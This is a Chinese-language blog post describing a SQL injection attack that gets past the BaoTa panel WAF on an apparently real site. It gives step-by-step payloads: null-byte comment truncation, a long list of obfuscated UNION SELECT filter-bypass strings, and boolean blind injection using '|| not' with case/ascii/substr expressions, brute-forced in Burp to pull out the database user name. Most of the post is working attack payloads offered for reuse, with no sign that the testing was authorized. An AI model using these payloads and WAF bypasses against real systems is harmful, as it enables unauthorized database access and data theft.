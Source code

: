 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.csdn.net](https://blog.csdn.net/weixin_48421613/article/details/115181668)

#### 一次宝塔 sql 注入绕过

*   [宝塔防护](#_2)
*   *   [sql 注入尝试](#sql_6)
    *   [联合查询的尝试](#_35)
    *   [布尔盲注尝试](#_153)
    *   [真假盲注运用](#_178)

宝塔防护
----

在一次挖 cvnd 漏洞的时候，遇到了宝塔面板的防护，此 waf 屏蔽了传统的注释符 “–+”、"#"、 “/*” ， union select 做了防护而且似乎还做了过滤，废了半天劲绕过去发现联合查询不能被执行了，order by 虽然能用但是也没了卵用，搞了半天搞了个寂寞，正当我就要放弃的时候，我想起了使用布尔盲注，结果… 玛德法克…

### sql 注入尝试

老生常谈了哈，日站第一步当然需要确定是不是真的存在 sql 注入

1.  **输入单引号进行注入测试**  
    首先页面是这个样子的 `?id=11`  
    ![](https://img-blog.csdnimg.cn/2021032415583656.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)
    
2.  **输入测试 poyload 单引号**  
    输入单引号内容不见 `?id=11'`  
    ![](https://img-blog.csdnimg.cn/20210324155451828.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)
    
3.  **再输入一个单引号进行闭合**  
    闭合单引号后数据重新出现，说明此处可能是基于单引号的盲注类型  
    `?id=11''`  
    ![](https://img-blog.csdnimg.cn/20210324155716149.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)
    
4.  **注释符的尝试**  
    此防护为宝塔 waf 防护，输入 "-- -" 、"#" 、 “/*” 常见的注释符发现会直接被拦截，并且井字符并没卵用  
    ![](https://img-blog.csdnimg.cn/20210324160232942.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)
    
5.  **注释符过滤不全**  
    此时我想起一个注释符 “;%00” 截断，发现，芜湖，直接起飞  
    `?id=11' ;%00`  
    ![](https://img-blog.csdnimg.cn/20210324160534635.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)
    

### 联合查询的尝试

解决了注释符的问题，现在开始尝试联合查询，联合查询第一步当然是进行 order by 操作

1.  **order by 猜测字段个数**  
    使用二分法即可快速的猜测字段个数，在前几篇文章有详细介绍，在这里不做赘述，这里没有屏蔽 order by  
    `?id=11' order by 26 ;%00`  
    ![](https://img-blog.csdnimg.cn/20210324161505210.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)![](https://img-blog.csdnimg.cn/20210324161609228.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)
    
2.  **联合查询失败**  
    当我想使用联合查询的时候，发现 Union select 进去就会被拦截，大小写什么的，修改请求方式，内联注释，垃圾数据填充，编码转换都失败了，最后空字节可以，但是并不能被执行，所以很有可能是联合查询被过滤掉了  
    ![](https://img-blog.csdnimg.cn/20210324163646958.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)不举太多例子了，结果都一样，那就是被拦截
    

`+#uNiOn+#sEleCt` 没拦截，但是也没好使，淦  
![](https://img-blog.csdnimg.cn/2021032416295779.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)以下省略 n 多尝试，最后的结论就是联合查询不好使，绝望，附上联合查询的绕过方式

```
/*!%55NiOn*/ /*!%53eLEct*/
 
 %55nion(%53elect 1,2,3)-- -
 
 +union+distinct+select+
 
 +union+distinctROW+select+
 
 /**//*!12345UNION SELECT*//**/
 
 /**//*!50000UNION SELECT*//**/
 
 /**/UNION/**//*!50000SELECT*//**/
 
 /*!50000UniON SeLeCt*/
 
 union /*!50000%53elect*/
 
 +#uNiOn+#sEleCt
 
 +#1q%0AuNiOn all#qa%0A#%0AsEleCt
 
 /*!%55NiOn*/ /*!%53eLEct*/
 
 /*!u%6eion*/ /*!se%6cect*/
 
 +un/**/ion+se/**/lect
 
 uni%0bon+se%0blect
 
 %2f**%2funion%2f**%2fselect
 
 union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
 
 REVERSE(noinu)+REVERSE(tceles)
 
 /*--*/union/*--*/select/*--*/
 
 union (/*!/**/ SeleCT */ 1,2,3)
 
 /*!union*/+/*!select*/
 
 union+/*!select*/
 
 /**/union/**/select/**/
 
 /**/uNIon/**/sEleCt/**/
 
 /**//*!union*//**//*!select*//**/
 
 /*!uNIOn*/ /*!SelECt*/
 
 +union+distinct+select+
 
 +union+distinctROW+select+
 
 +UnIOn%0d%0aSeleCt%0d%0a
 
 UNION/*&test=1*/SELECT/*&pwn=2*/
 
 un?+un/**/ion+se/**/lect+
 
 +UNunionION+SEselectLECT+
 
 +uni%0bon+se%0blect+
 
 %252f%252a*/union%252f%252a /select%252f%252a*/
 
 /%2A%2A/union/%2A%2A/select/%2A%2A/
 
 %2f**%2funion%2f**%2fselect%2f**%2f
 
 union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
 
 /*!UnIoN*/SeLecT+
  %55nion(%53elect)
 
   union%20distinct%20select
 
   union%20%64istinctRO%57%20select
 
   union%2053elect
 
   %23?%0auion%20?%23?%0aselect
 
   %23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect
 
   %55nion %53eLEct
 
   u%6eion se%6cect
 
   unio%6e %73elect
 
   unio%6e%20%64istinc%74%20%73elect
 
   uni%6fn distinct%52OW s%65lect
 

   %75%6e%6f%69%6e %61%6c%6c %73%65%6c%65%63%7
```

### 布尔盲注尝试

联合查询失败后，我想起我还会点布尔盲注，走一波

1.  **真假盲注测试**  
    使用真假盲注 and 1=1 or 1=1 进行真假盲注测试  
    `?id=11' and 1=1 ;%00`  
    额呵，被屏蔽了
    
2.  **再次转换**  
    尝试了 and -1=-1 and true or -1=-1 or false 依然被屏蔽  
    ![](https://img-blog.csdnimg.cn/2021032416384947.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)  
    经过我的测试，此宝塔不会单独屏蔽 and 、 or 、= 但是当二者放在一块的时候就会被拦截，那么能不能绕过呢？
    
3.  **转换等号失败**  
    我最先想到的是转换等于号，进行 url 转换  
    ![](https://img-blog.csdnimg.cn/20210324164107814.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)  
    很显然失败了，经过多轮转换都没行，我都要放弃了，这个时候我想起来逻辑运算符，等于不能转换，我可以转换 and 和 or 啊！
    
4.  **逻辑与转换失败**  
    逻辑与 and 等同于 &&  
    ![](https://img-blog.csdnimg.cn/20210324164728173.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)
    

没好使  
4. **逻辑或转换**  
逻辑或 or 等同于 ||  
`?id=11' || not true ;%00`  
![](https://img-blog.csdnimg.cn/20210324164814437.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)芜湖，成功了，我真是个小机灵鬼

### 真假盲注运用

1.  **用户长度的猜测**  
    `?id=11 || not length(user())=8 ;%00`  
    这条 payload 的作用就是结合逻辑与，当用户长度等于 8 的时候就位真，等同于 or not 8=8 也就会返回当前页面，利用这一点可以使用 burpsuite 进行暴力破解猜测用户名的长度，废话不多说，走你  
    ![](https://img-blog.csdnimg.cn/20210324165355732.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)此时用户长度当然不是 8 所以是假的，所以页面发生了变化，上 burp  
    ![](https://img-blog.csdnimg.cn/20210324165453790.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)得到用户名长度为 19  
    ![](https://img-blog.csdnimg.cn/20210324165532655.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)
2.  **用户名的猜测**  
    `?id=11 || not 1=(case when ascii(substr(user(),1,1))=127 then 2 else 1 end);%00`  
    这条 payload 的作用就是逐一爆破用户名，利用了 ascii 转换以及三元运算，substr() 为字符串截取，和 mid() 有异曲同工之处；当第一位字符串为 ascii 对应的 127 时为真  
    ![](https://img-blog.csdnimg.cn/20210324165927460.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)由于 ascii 中真正有用的其实就是 32-127，所以 payload 中只用到用户的长度 1-19 ，ascii 32-127  
    ![](https://img-blog.csdnimg.cn/202103241701074.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80ODQyMTYxMw==,size_16,color_FFFFFF,t_70)  
    将 ascii 按照顺序进行编码转换，得到用户名为  
    wxxxxxxxx@localhost

举例到此结束